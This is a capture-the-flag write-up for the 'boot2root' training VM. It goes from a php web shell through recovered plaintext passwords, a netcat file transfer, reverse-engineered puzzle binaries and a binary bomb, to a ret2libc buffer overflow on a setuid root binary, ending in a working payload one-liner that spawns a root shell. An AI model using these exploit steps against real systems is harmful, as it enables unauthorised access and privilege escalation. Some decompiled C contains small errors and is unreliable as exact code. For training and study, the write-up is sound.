


# Writeup 2

I created a script that executes this command using the php shell, and connect's to the vm, spawning a python pty that enables us to run interactive commands.
```bash
./shell.sh $(tr '/' ' ' < root.mysql.credentials)
```
```
www-data@BornToSecHackMe:/var/www/forum/templates_c$
```

Now that we can execute arbitrary commands, we can inspect the filesystem more easily.

To find potentially interesting files, I used the find command with the user option:
```bash
find / -user www-data -not \( -path '/proc/*' -o -path '/dev/*' -o -path '/rofs/*' -o -path '/var/www/*' \) 2>/dev/null
```
```
/home
/home/LOOKATME
/home/LOOKATME/password
/run/lock/apache2
/tmp/f
/var/cache/apache2
/var/cache/apache2/mod_disk_cache
/var/lib/phpmyadmin/tmp
```

We own a file called `password` in the `/home/LOOKATME` directory.
```bash
cat /home/LOOKATME/password
```
```
lmezard:G!@M6f4Eatau{sF"
```

The password seems different from the previous credentials.
Let's try to switch user using this password:
```bash
su lmezard
Password: G!@M6f4Eatau{sF"
```
```
lmezard@BornToSecHackMe:/var/www/forum/templates_c$
```

Nice, so now we're logged in as the user `lmezard`.
Let's take a look at his home directory:
```bash
cd
ls -l
```
```
total 791
-rwxr-x--- 1 lmezard lmezard 808960 Oct  8  2015 fun
-rwxr-x--- 1 lmezard lmezard     96 Oct 15  2015 README
```

```bash
cat README
```
```
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

## Challenges

### fun
```bash
popd; popd
pushd users; pushd lmezard/fun
```

```bash
file fun
```
```
fun: POSIX tar archive (GNU)
```

Let's try to download this file to our machine for further analysis.
I'll use the `netcat` utility to create a `TCP` listener.
```bash
nc -l 5556 < fun
```

Now we can connect and retrieve the file using:
```bash
nc --recv-only boot2root.vm 5556 > fun.tar
```

Let's look at the archive's contents:
```
tar xf fun.tar
```

The archive contains a directory named `ft_fun`.
```
file ft_fun/*
```
```
ft_fun/00M73.pcap: ASCII text
...
ft_fun/YDMXW.pcap: ASCII text
ft_fun/YJR5Z.pcap: C source, ASCII text
ft_fun/YL7B7.pcap: ASCII text
...
ft_fun/ZQTK1.pcap: ASCII text
```

There are 751 files containing ASCII text, with one file being identified as C source.

```bash
wc -l ft_fun/*
```
```
    2 00M73.pcap
    ...
    2 BI0RD.pcap
 1266 BJPCP.pcap
    2 BN32A.pcap
    ...
    2 ZQTK1.pcap
 2764 total
```

Each file is contains two lines, bessides `BJPCP.pcap` which contains a lot more.

Let's look at this big file's contents:
```c
}void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}*/
char getme9() {
	return 'n';
}
/*
void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}*/
char getme10() {
	return 'a';
}
/*
void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}*/
char getme11() {
	return 'g';
}
/*
void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}*/
char getme12()
{
	return 'e';
}
/*
void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}*/
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
/*
void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}
*/
//file750
```

This looks like some c code, but it looks like a part of the file is missing.

Between the useless noise, there is a function that prints `MY PASSWORD IS: `, followed by characters returned from different functions, ranging from `getme1` to `getme12`.

The password is followed by an instruction that tells us to hash the password before using it.

At the bottom of the file, there is a line containing a line comment stating `file750`.

Let's look at some other files:
```bash
cat 00M73.pcap
```
```
void useless() {

//file12
```

```bash
cat 01IXJ.pcap
```
```
}void useless() {

//file265
```

The contents seem similar to the c code, and the last line always contains an identifier.

Let's try to concatenate all the files and filter out the noise:

```bash
cat * | sed -e '/void useless()/d' -e '/Hahaha/d' -e '/^$/d'
```
```
//file302/*
//file431char getme4() {
//file373char getme7() {
//file736char getme1() {
//file668char getme5() {
//file601/*
//file108}*/
//file349}
//file483   return 'a';
//file722char getme6() {
//file697   return 'I';
//file138char getme3() {
} */
char getme8() {
    return 'w';
}
/*
}*/
char getme9() {
    return 'n';
}
/*
}*/
char getme10() {
    return 'a';
}
/*
}*/
char getme11() {
    return 'g';
}
/*
}*/
char getme12()
{
    return 'e';
}
/*
}*/
int main() {
    printf("M");
    printf("Y");
    printf(" ");
    printf("P");
    printf("A");
    printf("S");
    printf("S");
    printf("W");
    printf("O");
    printf("R");
    printf("D");
    printf(" ");
    printf("I");
    printf("S");
    printf(":");
    printf(" ");
    printf("%c",getme1());
    printf("%c",getme2());
    printf("%c",getme3());
    printf("%c",getme4());
    printf("%c",getme5());
    printf("%c",getme6());
    printf("%c",getme7());
    printf("%c",getme8());
    printf("%c",getme9());
    printf("%c",getme10());
    printf("%c",getme11());
    printf("%c",getme12());
    printf("\n");
    printf("Now SHA-256 it and submit");
}
/*
}
*/
//file15}
//file432} */
//file688}
//file161   return 'e';
//file540}
//file632char getme2() {
//file314}
//file252   return 't';
//file102}*/
//file703}
//file128/*
//file497/*
//file141/*
//file239}*/
//file271
//file163   return 'p';
//file640   return 'r';
//file254}
//file445}
//file157/*
//file256}
//file479}
//file427}*/
//file281/*
//file596*/
//file503#include <stdio.h>
//file3 return 'h';
//file687
```

All files seem to be parts of the c program, but they are not named according to their order.

Knowing that their is a total of 750 files, and that the identifier of the long file is file750, we can deduce that the identifier corresponds to the order of each part.

We can sort the files according to this identifier and concatenate them, to get the code in the right order.

I wrote a script to filter out the noise, sort the files and concatenate them.
```bash
./filter.sh
```
```c
#include <stdio.h>
}
char getme1() {
    return 'I';
}
/*
}
}*/
char getme2() {
    return 'h';
}

/*
}
*/
char getme3() {
    return 'e';
}
/*
}*/
char getme4() {
    return 'a';
}
/*
} */
char getme5() {
    return 'r';
}
/*
}*/
char getme6() {
    return 't';
}
/*
}*/
char getme7() {
    return 'p';
}
/*
} */
char getme8() {
    return 'w';
}
/*
}*/
char getme9() {
    return 'n';
}
/*
}*/
char getme10() {
    return 'a';
}
/*
}*/
char getme11() {
    return 'g';
}
/*
}*/
char getme12()
{
    return 'e';
}
/*
}*/
int main() {
    printf("M");
    printf("Y");
    printf(" ");
    printf("P");
    printf("A");
    printf("S");
    printf("S");
    printf("W");
    printf("O");
    printf("R");
    printf("D");
    printf(" ");
    printf("I");
    printf("S");
    printf(":");
    printf(" ");
    printf("%c",getme1());
    printf("%c",getme2());
    printf("%c",getme3());
    printf("%c",getme4());
    printf("%c",getme5());
    printf("%c",getme6());
    printf("%c",getme7());
    printf("%c",getme8());
    printf("%c",getme9());
    printf("%c",getme10());
    printf("%c",getme11());
    printf("%c",getme12());
    printf("\n");
    printf("Now SHA-256 it and submit");
}
/*
}
```

Nice, so the password is `Iheartpwnage`, let's get the `SHA-256` hash:
```bash
echo -n Iheartpwnage | sha256sum
```
```
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

We can now connect to the machine using `SSH` using the user `laurie`:
```bash
ssh laurie@boot2root.vm
```
```
laurie@BornToSecHackMe:~$
```

```bash
ls -l
```
```
total 27
-rwxr-x--- 1 laurie laurie 26943 Oct  8  2015 bomb
-rwxr-x--- 1 laurie laurie   158 Oct  8  2015 README
```

```bash
cat README
```
```
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

```bash
file bomb
```
```
bomb: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.0.0, not stripped
```

I downloaded the file using the previous method, to inspect it on my local machine.

### bomb
```bash
popd
pushd laurie/bomb
```

```bash
./bomb
```

```
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!

BOOM!!!
The bomb has blown up.
```

The program reads the standard input, and seems to expect specific answers. There seem to be 6 stages to solve and diffuse the bomb, according to the `README`.

I used `radare2` to disassemble the file and understand the checks performed on the input.

I created some scripts, ranging from `phase_1.sh` to `phase_7.sh` to define the input for each stage of the bomb.

When there are multiple valid inputs, we can use the hint to make our choice.

#### phase 1
```c
void phase_1(const char *input)

{
    bool not_equal;
    
    not_equal = strings_not_equal(input, "Public speaking is very easy.");
    if (not_equal)
        explode_bomb();
}

```
Expected input:
```
Public speaking is very easy.
```

#### phase 2
```c
void read_six_numbers(const char *input, int *dest)
{
    int n_conv;
    
    n_conv = sscanf(input, "%d %d %d %d %d %d", dest, dest + 1, dest + 2,
        dest + 3, dest + 4, dest + 5);
s
    if (n_conv < 6)
        explode_bomb();
}

void phase_2(const char *input)
{
    int         i;
    int         nums[6];
    
    read_six_numbers(input, nums);

    if (nums[0] != 1)
        explode_bomb();

    i = 1;
    do {
        if (nums[i] != (i + 1) * nums[i - 1])
            explode_bomb();
        i++;
    } while (i < 6);
}
```

Expected input:
```
1 2 6 24 120 720
```

#### phase 3
```c
void phase_3(const char *input)
{
    int     n_conv;
    char    expected_character;
    unsigned    number_a;
    char    character;
    int     number_b;
    
    n_conv = sscanf(input, "%d %c %d", &number_a, &character, &number_b);

    if (n_conv < 3) {
        explode_bomb();
    }

    switch(number_a) {
    case 0:
        expected_character = 'q';
        if (number_b != 777)
            explode_bomb();
        break;
    case 1:
        expected_character = 'b';
        if (number_b != 214)
            explode_bomb();
        break;
    case 2:
        expected_character = 'b';
        if (number_b != 755)
            explode_bomb();
        break;
    case 3:
        expected_character = 'k';
        if (number_b != 251)
            explode_bomb();
        break;
    case 4:
        expected_character = 'o';
        if (number_b != 160)
            explode_bomb();
        break;
    case 5:
        expected_character = 't';
        if (number_b != 458)
            explode_bomb();
        break;
    case 6:
        expected_character = 'v';
        if (number_b != 780)
            explode_bomb();
        break;
    case 7:
        expected_character = 'b';
        if (number_b != 524)
            explode_bomb();
        break;
    default:
        explode_bomb();
    }

    if (character != expected_character)
        explode_bomb();
}
```

One of the following combinations must be used to prevent the bomb from exploding:
| number_a | character | number_b |
|:--------:|:---------:|:--------:|
|     0    |     q     |    777   |
|     1    |     b     |    214   |
|     2    |     b     |    755   |
|     3    |     k     |    251   |
|     4    |     o     |    160   |
|     5    |     t     |    458   |
|     6    |     v     |    780   |
|     7    |     b     |    524   |

According to the hint, the input should contain the character `b`.

Expected input:
```
1 b 214
```

#### phase 4
```c
// This function gets a value in the fibonacci sequence, according to its position
int func4(int pos)
{
    int         prev;
    int         value;
    
    if (pos < 2)
        value = 1;
    else {
        prev = func4(pos + -1);
        value = func4(pos + -2) + prev;
    }

    return value;
}

void phase_4(const char *input)
{
    int n_conv;
    int position;
    
    n_conv = sscanf(input, "%d", &position);
    if (i == 1 && position > 0) {
        //  1  2  3  4  5  6  7  8  9
        //  1  2  3  5  8  13 21 34 55 ...
        if (func4(position) != 55)
            explode_bomb();
        return;
    }
    explode_bomb();
}
```

Expected input:
```
9
```

#### phase 5
```c
const char  *key = "isrveawhobpnutfg";

void phase_5(const char *input)
{
    int         i;
    const char  *plain_text;
    
    if (string_length(input) != 6)
        explode_bomb();

    i = 0;
    do {
        plain_text[i] = key[input[i] & 0xf];
        i = i + 1;
    } while (i < 6);

    if (strings_not_equal(&plain_text, "giants"))
        explode_bomb();
}
```

The expected input is the string `giants` encoded with the key `isrveawhobpnutfg`.
The key is 16 characters long and each input character's lower two-bytes determine the position of the decoded character in the key.

For example:
| Encoded | Lower two bytes | Decoded |
|:-------:|:---------------:|:-------:|
|    a    |       0x1       |    s    |
|    b    |       0x2       |    r    |
|    c    |       0x3       |    v    |
|    d    |       0x4       |    e    |
|    e    |       0x5       |    a    |
|    f    |       0x6       |    w    |
|    g    |       0x7       |    h    |
|    h    |       0x8       |    o    |
|    i    |       0x9       |    b    |
|    j    |       0xa       |    p    |
|    k    |       0xb       |    n    |
|    l    |       0xc       |    u    |
|    m    |       0xd       |    t    |
|    n    |       0xe       |    f    |
|    o    |       0xf       |    g    |
|    p    |       0x0       |    i    |

Expected input:
```
opekmq
```

#### phase 6
```c
typedef struct node
{
	int				content;
	struct node*	next;
} node;

node node1 = {0x0fd, 1};
node node2 = {0x2d5, 2};
node node3 = {0x12d, 3};
node node4 = {0x3e5, 4};
node node5 = {0x0d4, 5};
node node6 = {0x1b0, 6};

void phase_6(const char *input)
{
    node	*next;
    int		j;
    node	*selected;
    node	*current;
    int		i;
    node	*nodes[6];
    int		nums[6];

    read_six_numbers(input, nums);

	// No number > 6, no duplicates
    i = 0;
    do {
        j = i;
        if (nums[i] > 6)
            explode_bomb();

        while (j < 5)
            if (nums[i] == nums[++j + 1])
                explode_bomb();
        i++;
    } while (i < 6);

	// Select nodes based on index(1..6)
    i = 0;
    do {
        selected = &node1;
        j = 1;
        if (nums[i] > 1) {
            do {
                selected = selected->next;
            } while (j++ < nums[i]);
        }
        nodes[i] = selected;
        i++;
    } while (i < 6);

	// Relink nodes according to selection
    i = 1;
    current = nodes[0];
    do {
        next = nodes[i];
        current->next = next;
        i++;
        current = next;
    } while (i < 6);
    next->next = NULL;

	// Check that nodes contents are in descending order
    i = 0;
    do {
        if (nodes[0]->content < nodes[0]->next->content)
            explode_bomb();
        nodes[0] = nodes[0]->next;
        i++;
    } while (i < 5);
}
```

Expected input:
```
4 2 6 3 1 5
```

Using these inputs, we should be able to defuse the bomb:
```
./solve.sh | ./bomb
```
```
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Congratulations! You've defused the bomb!
```

#### secret stage

There is also a secret stage, but it is not part of the input described in the hint.

```c
static int  num_input_strings;

static char input_strings[7][50];

struct btree {
    int             content;
    struct btree    *left;
    struct btree    *right;
};

struct btree n1;

int fun7(const struct btree *tree, int num)
{
    int value;

    if (tree == NULL)
        value = -1;
    else if (num < tree->content)
        value = fun7(tree->left, num) * 2;
    else if (num == tree->content)
        value = 0;
    else
        value = fun7(tree->right, num) * 2 + 1;

    return value;
}

void secret_phase(void)
{
    unsigned    input;
    int         num;

    input = read_line();

    num = strtol(input, NULL, 10);

    if (num > 1001)
        explode_bomb();

    num = fun7(n1, num);
    if (num != 7)
        explode_bomb();

    printf("Wow! You've defused the secret stage!\n");

    phase_defused();
}

void    phase_defused()
{
    int         n_conv;
    unsigned    num;
    unsigned    str;

    if (num_input_strings == 6) {
        n_conv = sscanf(input_strings + 3, "%d %s", &num, &str);
        if (n_conv == 2) {
            if (strings_not_equal(&str, "austinpowers") == 0) {
                printf("Curses, you've found the secret phase!\n");
                printf("But finding it and solving it are quite different...\n");
                secret_phase();
            }
        }
        printf("Congratulations! You've defused the bomb!\n");
    }
}
```

To reach the secret phase the program expects us to enter a string with the contents `austinpowers` in the 4th phase, after the normal number.

Afterwards, a line is read from standard input, and the contents are converted to a number. The bomb explodes if the number exceeds 1001.

Then a function called `fun7` is called, which seems to search a value inside of a binary tree. If the value is found, it returns a value depending on it's path.

The function's result describes the path to the value in a binary format.
When a bit is on, the path goes to the right node, otherwise it goes to the left node.

I wrote a python script to visualize the binary tree stored in the binary's data starting at `n1`.

```python
./r2tree.py
```
```c
         ┌> 1
      ┌> 6
      |  └> 7
   ┌> 8
   |  |  ┌> 20
   |  └> 22
   |     └> 35
─> 36
   |     ┌> 40
   |  ┌> 45
   |  |  └> 47
   └> 50
      |  ┌> 99
      └> 107
         └> 1001
```

The expected path value is `7`. The number `7` can be represented like this: `0b111`.

This means the path should go right, right, right.

Going this path leads us to the number 1001.

Expected input:
```
1001
```

Using this input we can solve the secret stage:
```sh
BONUS=true ./solve.sh | bomb
```
```
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Curses, you've found the secret phase!
But finding it and solving it are quite different...
Wow! You've defused the secret stage!
Congratulations! You've defused the bomb!
```

Using the hint we can now construct thor's password:
```
Publicspeakingisveryeasy.126241207201b2149opekmq426315
```

After trying to logging in, this password seems to be invalid, but there is a hint in the subject about this challenge:

    For the part related to a (bin) bomb: If the password found is
    123456. The password to use is 123546.

So let's try swapping the last digits according to the hint:
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

Using this password we can now switch users:
```bash
su thor
```
```
thor@BornToSecHackMe:~$
```

### turtle

```bash
cat README
```
```
Finish this challenge and use the result as password for 'zaz' user.
```

```bash
file turtle
```
```
turtle: ASCII text
```

```bash
head turtle
```
```
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
```

The challenge seems to be a reference to a Minecraft mod called ComputerCraft. In this mod there are programmable "turtles" that can move and interact with the world.

The `turtle` file seems to contain instructions that describe a path.

I wrote a script to parse the instructions and translate them into a more structured format.
```bash
./translate.sh < turtle > translated
```

From there, I wrote a simple html document containing a canvas and a script that parses the instructions and renders the resulting path to the canvas.

By running each instruction block, I got the following resulting images:






Looking at the sequence, we can read the word `SLASH`.

Using `slash` or `SLASH` as the password does not work. Looking closely at the end of the `turtle` file we can find the following hint:
```
Can you digest the message? :)
```

Let's try md5 to digest the message:
```bash
echo -n 'SLASH' | md5sum
```
```
646da671ca01bb5d84dbb5fb2238dc8e  -
```

```bash
su zaz
```
```
zaz@BornToSecHackMe:~$ ls -la
total 16
drwxr-x--- 1 zaz      zaz    60 Oct 15  2015 .
drwxrwx--x 1 www-data root  120 Oct 13  2015 ..
-rwxr-x--- 1 zaz      zaz   248 Jun  5 10:34 .bash_history
-rwxr-x--- 1 zaz      zaz   220 Oct  8  2015 .bash_logout
-rwxr-x--- 1 zaz      zaz  3489 Oct 13  2015 .bashrc
drwx------ 2 zaz      zaz    43 Oct 14  2015 .cache
-rwsr-s--- 1 root     zaz  4880 Oct  8  2015 exploit_me
drwxr-x--- 3 zaz      zaz   107 Oct  8  2015 mail
-rwxr-x--- 1 zaz      zaz   675 Oct  8  2015 .profile
-rwxr-x--- 1 zaz      zaz  1342 Oct 15  2015 .viminfo
zaz@BornToSecHackMe:~$ file exploit_me
exploit_me: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x2457e2f88d6a21c3893bc48cb8f2584bcd39917e, not stripped
```
There is an executable named 'exploit_me' with it's setuid set to root.
Let's run it and see what it does.

```
zaz@BornToSecHackMe:~$ ./exploit_me

zaz@BornToSecHackMe:~$ ./exploit_me qweeeeeeeeeeeeeeeeeeeeee
qweeeeeeeeeeeeeeeeeeeeee

zaz@BornToSecHackMe:~$ ./exploit_me cooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
cooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
Segmentation fault (core dumped)
```

We can see that it runs into a segmentation fault if we give it too big of a string.

Because this is a security challenge we know that this segv is a buffer overflow and that we can exploit it.

By trying different lengths, we see that it SEGVs when we send it more than 140 characters.

Because it's setuid bit is set to root, we will win if we can find a way to spawn a shell.

We will do a ret2libc exploit :

```
https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
```

We need to find the addresses of `system()` and `exit()`, as well as one for `"/bin/sh"`

```
zaz@BornToSecHackMe:~$ gdb -q ./exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r
Starting program: /home/zaz/exploit_me

Breakpoint 1, 0x080483f7 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:      "/bin/sh"
(gdb)
```

So, system is at `0xb7e6b060`, exit is at `0xb7e5ebe0`, and /bin/sh at `0xb7f8cc58`.

Our payload will be: padding + address of system + address of exit + address of /bin/sh

```
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print("A" * 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")'`
#[......]
# whoami
root
#
```

End of writeup2
